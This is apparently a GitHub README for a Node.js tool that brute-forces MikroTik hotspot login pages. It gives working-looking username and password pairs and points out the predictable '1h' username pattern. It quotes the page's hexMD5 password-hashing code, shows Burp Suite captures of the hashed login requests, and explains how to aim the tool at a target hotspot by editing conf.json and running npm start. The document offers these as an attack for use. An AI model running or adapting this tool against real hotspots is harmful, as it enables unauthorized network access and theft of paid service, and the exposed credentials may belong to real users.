 ### Brute-force attack login

The attack was only tested for the users of ***1 hour***, it is necessary to see the patron of the users of ***a month***.

## Analysis

----------
## Login
Example data valid.

```
username=1hjtd
password=263
```
![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-one.png "User 1hjtd")

```
username=1hmtw
password=423
```

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-two.png "User 1hmtw")

#### The ip addres is this 

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/DHCP-example.png "My dchp config")

## How to attack?

The patron is <kbd>1h</kbd> for username

```
username=1hjtd
password=263
```

> By right clicking > View source code for this page,
You can see that the values to create a secure password are changing on the function doLogin(), this complicates attacking directly through a direct post you plain text, the post should be done with the password already encrypted.

```
document.sendin.password.value = hexMD5('\075' + document.login.password.value + '\532\742\124\412\422\545\965\162\943\173\846\825\842\857\139\184');
document.sendin.password.value = hexMD5('\123' + document.login.password.value + '\624\077\174\275\022\150\314\272\032\201\122\170\154\311\235\102');
```

### Capturing request with burpsuite

```
username=1hjtd&password=6e7651ee150309d7da25cb30329368e2&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=1d44ed0532a8d99b41ea8864352d9e59&dst=&popup=true
username=1hjtd&password=99b033a5dbd6ff867c265c05170e0ef1&dst=&popup=true
username=1hjtd&password=9f2611a4b2ff7f42b9e72758aeb28a52&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```
> **Note:** The password changes every time a request is made.

## Post example to attack

```
username: 1hjtd
password: 00cfe5b8e01a385d18a29b459f349823

burpsuite capture: 

username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```

## How to use this tool?

Must have installed Nodejs and internet connection.

Clone this repository and in the folder **Hack-Mikrotik-Login**  

Edit the file `conf.json`, changing `http://localjuve.com` on the login page of the hotspot to attack

Edit file `conf.json` change `http://localjuve.com` by the login page of the hotspot to attack (example `http://hotspotmikrotik.com`)

Execute this command.

```
$ npm install
$ npm start
```

> The `data.js` file contains the list of possible users and passwords.

## License [![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=shield)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_shield)

[![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=large)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_large)

